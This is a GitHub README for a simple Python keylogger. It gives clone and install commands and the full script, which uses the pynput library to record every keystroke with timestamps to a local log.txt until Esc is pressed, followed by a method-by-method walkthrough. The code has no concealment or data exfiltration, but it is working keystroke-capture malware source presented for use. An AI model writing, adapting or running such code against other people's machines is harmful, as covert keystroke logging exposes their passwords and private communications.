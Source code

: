 
# Keylogger

This Python script implements a simple keylogger using the pynput library to capture keystrokes. The script runs in the background, recording keys pressed on the keyboard and saving them to a log file (log.txt).

## Installation

1. Clone the repo or just copy the script to a desired .py file

```bash
git clone https://github.com/yaxhx/keylogger.git
cd keylogger

```
2. Install the pynput library

```bash
pip install pynput

```


## Usage

1. Run the script
```javascript
python key.py

```
2. Stop the script
```bash
Press the 'Esc' key to stop the keylogger.

```

## Script
```python
from pynput import keyboard
import time
import threading
import os
import datetime

class KeyLogger:
    def __init__(self):
        self.keys = []
        self.running = False
        self.file_name = 'log.txt'

    def start(self):
        self.running = True
        self.listener = keyboard.Listener(on_press=self.on_press, on_release=self.on_release)
        self.listener.start()

    def stop(self):
        self.running = False
        self.listener.stop()

    def on_press(self, key):
        if key == keyboard.Key.esc:
            self.stop()
        else:
            self.keys.append(key)

    def on_release(self, key):
        pass

    def write_keys(self):
        while self.running:
            if self.keys:
                with open(self.file_name, 'a') as f:
                    f.write(str(datetime.datetime.now()) + '\n')
                    for key in self.keys:
                        f.write(str(key) + '\n')
                self.keys = []

    def run(self):
        self.start()
        writer = threading.Thread(target=self.write_keys)
        writer.start()
        while self.running:
            time.sleep(1)

    def main(self):
        self.run()

if __name__ == "__main__":
    keylogger = KeyLogger()
    keylogger.main()
```
## Features

- Captures all key presses.
- Records the timestamp of each capture session
- Saves logs to a file (log.txt).
- Stops logging when the Esc key is pressed.

## Script Overview

***'KeyLogger' Class***
>The KeyLogger class contains methods to start, stop, and run the keylogger.

- ***`__init__()`***: Initializes the keylogger, sets up an empty list to store keys, and sets the log file name.

- ***`start()`***: Starts the key listener.
- ***`stop()`***: Stops the key listener.
- ***`on_press(key)`***: Handles key press events. If the Esc key is pressed, it stops the keylogger; otherwise, it adds the key to the list.

- ***`on_release(key)`***: Placeholder for key release events (not used).

- ***`write_keys()`***: Writes the captured keys to the log file at regular intervals.
- ***`run()`***: Starts the key listener and the logging thread.
- ***`main()`***: Entry point to run the keylogger.


<div align="center">
    <img src="https://media.giphy.com/media/xTiTnBELA6Mb1TeeOc/giphy.gif?cid=790b7611daqio7016ovb4mlaptxdctxr6gzfc2zkg01ai0lc&ep=v1_gifs_search&rid=giphy.gif&ct=g">
</div>

